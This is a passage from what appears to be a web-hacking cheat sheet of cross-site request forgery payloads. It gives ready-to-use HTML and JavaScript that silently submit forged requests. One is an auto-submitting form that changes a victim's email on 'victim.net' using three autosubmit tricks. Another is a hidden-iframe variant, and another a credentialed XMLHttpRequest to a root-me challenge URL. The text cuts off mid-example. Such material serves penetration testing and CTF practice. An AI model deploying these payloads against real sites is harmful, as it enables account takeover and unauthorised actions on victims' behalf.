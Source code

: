 ```html
```

### Form POST request

```html
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form method="POST" action="https://victim.net/email/change-email" id="csrfform">
      <input type="hidden" name="email" value="some@email.com" autofocus onfocus="csrfform.submit();" /> <!-- Way 1 to autosubmit -->
      <input type="submit" value="Submit request" />
      <img src=x onerror="csrfform.submit();" /> <!-- Way 2 to autosubmit -->
    </form>
    <script>
      document.forms[0].submit(); //Way 3 to autosubmit
    </script>
  </body>
</html>
```

### Form POST request through iframe

```html
<!-- 
The request is sent through the iframe withuot reloading the page 
-->
<html>
  <body>
  <iframe style="display:none" name="csrfframe"></iframe> 
    <form method="POST" action="/change-email" id="csrfform" target="csrfframe">
      <input type="hidden" name="email" value="some@email.com" autofocus onfocus="csrfform.submit();" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

### **Ajax POST request**

```html
<script>
var xh;
if (window.XMLHttpRequest)
  {// code for IE7+, Firefox, Chrome, Opera, Safari
  xh=new XMLHttpRequest();
  }
else
  {// code for IE6, IE5
  xh=new ActiveXObject("Microsoft.XMLHTTP");
  }
xh.withCredentials = true;
xh.open("POST","http://challenge01.root-me.org/web-client/ch22/?action=profile");
xh.setRequestHeader('Content-type', 'application/x-www-form-urlencoded'); //to send proper header info (optional, but good to have as it may sometimes not work without this)
xh.send("username=abcd&status=on");
</script>

<script>
//JQuery version
$.ajax({
```